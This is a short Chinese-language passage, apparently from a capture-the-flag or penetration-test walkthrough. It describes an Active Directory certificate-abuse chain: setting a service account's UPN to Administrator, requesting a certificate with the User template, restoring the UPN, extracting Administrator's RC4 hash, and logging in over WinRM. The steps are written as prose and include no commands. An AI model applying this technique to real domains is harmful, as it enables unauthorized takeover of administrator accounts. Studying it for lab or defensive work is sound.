👉 你需要“再次请求证书”，并让证书声明自己是 Administrator
```
#### 然后，应该以ca svc用户的身份请求证书。由于ca sv c用户的UPN已更新对于管理员，生成的证书将允许我们以管理员用户身份进行身份验证。请注意此处使用的User模板（CA中的默认模板）。
#### 这将为Administrator用户保存证书。可以。在使用这个之前ca_svc用户修改后的UPN需要更新为正确的UPN。
#### 最后，让我们使用管理员。获取Administrator用户的RC4哈希值。
#### 使用这个RC4哈希，我们可以通过WinRM作为Administrator用户访问目标。
